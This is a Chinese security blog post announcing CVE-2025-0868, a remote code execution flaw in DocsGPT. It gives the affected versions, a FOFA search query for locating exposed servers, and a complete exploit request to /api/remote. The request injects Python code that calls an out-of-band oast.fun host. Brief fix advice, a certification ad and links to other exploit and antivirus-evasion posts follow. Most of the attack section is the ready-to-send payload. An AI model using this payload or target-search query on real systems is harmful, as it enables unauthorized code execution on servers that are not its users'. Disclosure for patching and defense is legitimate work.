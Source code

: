 #  漏洞速递 | CVE-2025-0868 RCE漏洞（附EXP）   
原创 Xiao  渗透Xiao白帽   2025-05-21 04:04  
  
0x01 前言  
  
    DocsGPT 中存在导致远程代码执行 （RCE） 的漏洞。由于使用 eval（） 对 JSON 数据进行解析不当，未经授权的攻击者可发送任意 Python 代码以通过 /api/remote 端点执行  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEGws3l7BKRruibdXCDXh0DBwwyWuh8tcIHnG3L1krsicIs7Q3ib9HpvJHmiapJrNqg8UG4yPlMmqmSwA/640?wx_fmt=png "")  
  
  
0x02 漏洞等级  
  
```
高危
```  
  
  
0x03 漏洞影响  
```
0.8.1<=docsgpt<0.12.0
```  
  
0x04 漏洞复现  
  
FOFA：  
```
body="Welcome to DocsGPT"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHrLiaMZaALG7bab3e2WcGnicia5VWJtNPKibdjFibbHaiaAh5W1zENs9TJVfQ8Myia1fPibE90H6nPLP51fg/640?wx_fmt=png&from=appmsg "")  
  
EXP：  
```
POST /api/remote HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 252

user=1&source=reddit&name=other&data={"source":"reddit","client_id":"1111","client_secret":1111,"user_agent":"111","search_queries":[""],"number_posts":10,"rce\\\\":__import__('requests').get('http://dmaxnqikgwvdddcntkfuddpr21k3qa5pw.oast.fun/')}#":11}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHrLiaMZaALG7bab3e2WcGnicRkmtbp4fSu9AZV24oiaia2e7QQh24CIoaU60JeNRHbbk4KnP50QIX2RQ/640?wx_fmt=png&from=appmsg "")  
  
success  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHrLiaMZaALG7bab3e2WcGnickSHoKuMt44XSnm2SZp3HPREpAKBQBxvNF7R0CsdhEphqYBxR5oWvRg/640?from=appmsg "")  
  
注：严禁用于非授权测试  
  
0x05 修复建议  
```
1、关闭互联网暴露面或接口设置访问权限
2、升级至安全版本
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTER2M22xQ4L9ypTc8ycOSFz16CibJb5tZJAekLtXvhuAVPTwsIdyfGc6vViaCWib8HwdUeTs72DzN4ag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**网 安 考 证**  
  
  
需要考各类安全证书的可以扫码找我咨询，  
价格优惠、活动划算！  
  
报名CISSP、CCSP、PTE、PTS、IRE、IRS、DSG、CCSK、CDSP、CZTP、ITIL4等符合活动标准的认证课程，可获得波司登羽绒服一件（可选）  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7D2JPvxqDTHjHaNZEcAQxmACdS20uaT7YUP0TObLHLBicia6vKicVJ75AVOfN3RQxop70GQXFhFRm0ZkdKoydgfIg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&random=0.06125543926007038&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ib745vqibLBGIeAicnHiag9GCzTYjeicic5IWPqfyjLajDuwtJdNCAnCgcolqY8ROaE5CsEXR5zbjCU9aVl3WfkZpnDw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
往期推荐 · 有彩蛋  
  
[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  
  
  
[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  
  
  
[【超详细 | Python】CS免杀-Shellcode Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)  
  
  
[【超详细 | Python】CS免杀-分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  
  
  
[【超详细 | 钟馗之眼】ZoomEye-python命令行的使用](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488453&idx=1&sn=5828a0e1a2299d3ee0215f0ed4c30bf1&chksm=ea37ec9fdd406589124c67c45487be39ed1033d88c627092cf07f6d4f14ccdb9079b38dba74d&scene=21#wechat_redirect)  
  
  
[【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488922&idx=1&sn=f43e3c243bbbfd2822867a3acaa8b85e&chksm=ea37eac0dd4063d63d98f935c73ce571cbfeb0e7272a6f171a28143bdb3e7134b09ea874969a&scene=21#wechat_redirect)  
  
  
[【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  
  
  
[【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  
  
  
[【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)  
  
  
[【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  
  
## 【奇淫巧技】如何成为一个合格的“FOFA”工程师  
  
[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)  
  
  
[【超详细】Fastjson1.2.24反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)  
  
  
[  记一次HW实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)  
  
  
  
走过路过的大佬们留个关注再走呗往期文章有彩蛋哦  
  
  
  
  
  
  
  
  
  
